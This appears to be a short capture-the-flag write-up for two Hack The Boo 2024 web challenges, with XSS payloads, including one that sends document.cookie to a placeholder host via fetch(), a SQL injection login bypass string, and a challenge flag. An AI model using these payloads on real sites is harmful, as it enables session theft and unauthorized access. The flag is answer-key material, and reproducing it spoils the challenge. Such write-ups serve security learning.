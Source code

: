 # Hack The Boo 2024 Write-Up

## WEB

### Phantom's Script

![image](https://github.com/user-attachments/assets/1d5b113b-039a-46ba-8470-0c8688fd03c4)

Basic XSS Payload:

`<script>alert('Boo!');</script>`

`<script>fetch('[host]')</script>`

More Diabolical Payload:

`<img src=x onerror="alert('Boo!')">`

`<img src=x onerror="fetch('[HOST]' + document.cookie)" />`

Use XSS payload `<script>fetch('[host]')</script>`

![image](https://github.com/user-attachments/assets/3bd034b8-1f32-4c04-9ebe-b96564676f02)

FLAG:

    HTB{xSS-1S_E4SY_wh4t_d0_y0u_th1nk?_5bae9bc761ca417e235b3b735ad26e1d}

### Unholy Union

![image](https://github.com/user-attachments/assets/65afbf7a-4d21-431c-98af-08696dc38732)

    ' OR '1'='1

![image](https://github.com/user-attachments/assets/8cd95fa3-2dc9-42a9-ae86-766d1c988a39)

